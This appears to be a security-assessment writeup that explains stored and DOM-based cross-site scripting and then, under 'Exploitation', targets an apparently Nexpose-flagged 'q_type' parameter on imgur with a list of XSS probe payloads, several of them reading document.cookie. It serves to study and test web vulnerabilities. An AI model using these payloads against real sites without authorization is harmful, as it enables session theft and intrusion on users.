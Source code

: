 ### Stored cross-site scripting
- Stored XSS (also known as persistent or second-order XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.
- The data in question might be submitted to the application via HTTP requests; for example, comments on a blog post, user nicknames in a chat room, or contact details on a customer order. In other cases, the data might arrive from other untrusted sources; for example, a webmail application displaying messages received over SMTP, a marketing application displaying social media posts, or a network monitoring application displaying packet data from network traffic.
- Here is a simple example of a stored XSS vulnerability. A message board application lets users submit messages, which are displayed to other users:
```html
<p>Hello, this is my message!</p>
```
- The application doesn't perform any other processing of the data, so an attacker can easily send a message that attacks other users:
```html
<p><script>/* Bad stuff here... */</script></p>
```

### DOM-based cross-site scripting
- DOM-based XSS (also known as DOM XSS) arises when an application contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.
- In the following example, an application uses some JavaScript to read the value from an input field and write that value to an element within the HTML:
```javascript
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```
- If the attacker can control the value of the input field, they can easily construct a malicious value that causes their own script to execute:
```html
You searched for: <img src=1 onerror='/* Bad stuff here... */'>
```
- In a typical case, the input field would be populated from part of the HTTP request, such as a URL query string parameter, allowing the attacker to deliver an attack using a malicious URL, in the same manner as reflected XSS.

#### Exploitation
- Let's focus at the vulnerability which we found using nexpose scan earlier. 
- [Nexpose XSS vulnerability](imgur_nexpose_report/Document.md#321-cross-site-scripting-vulnerability-http-cgi-0010)
- The scan founded out that the 'q_type' parameter which occures at several urls might be xss vulnerable.
- We won't try another paramethers at other imgur urls because nexpose which is quite a sofisticated scan did not noticed anything suspicious about them.
- XSS payload list
```javascript
"><script>"
<script>alert("WXSS")</script>
<<script>alert("WXSS");//<</script>
<script>alert(document.cookie)</script>
'><script>alert(document.cookie)</script>
'><script>alert(document.cookie);</script>
\";alert('XSS');//
%3cscript%3ealert("WXSS");%3c/script%3e
%3cscript%3ealert(document.cookie);%3c%2fscript%3e
%3Cscript%3Ealert(%22X%20SS%22);%3C/script%3E
&ltscript&gtalert(document.cookie);</script>
&ltscript&gtalert(document.cookie);&ltscript&gtalert
<xss><script>alert('WXSS')</script></vulnerable>
<IMG%20SRC='javascript:alert(document.cookie)'>
<IMG%20SRC="javascript:alert('WXSS');">
```